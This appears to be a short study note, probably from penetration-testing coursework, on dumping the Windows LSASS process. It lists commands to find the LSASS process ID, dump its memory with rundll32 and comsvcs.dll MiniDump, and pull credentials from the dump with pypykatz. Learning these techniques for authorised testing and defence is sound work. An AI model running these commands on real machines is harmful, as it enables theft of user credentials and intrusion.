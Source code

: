 
Dumping LSASS
![[Pasted image 20240912095240.png]]
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
Finding LSASS PID
![[Pasted image 20240912095439.png]]```tasklist /svc```
![[Pasted image 20240912095525.png]]
```powershell-session
Get-Process lsass
```
![[Pasted image 20240912100152.png]]
```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
Extracting creds with pypykatz (mimikatz for linux)
![[Pasted image 20240912101335.png]]
```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```




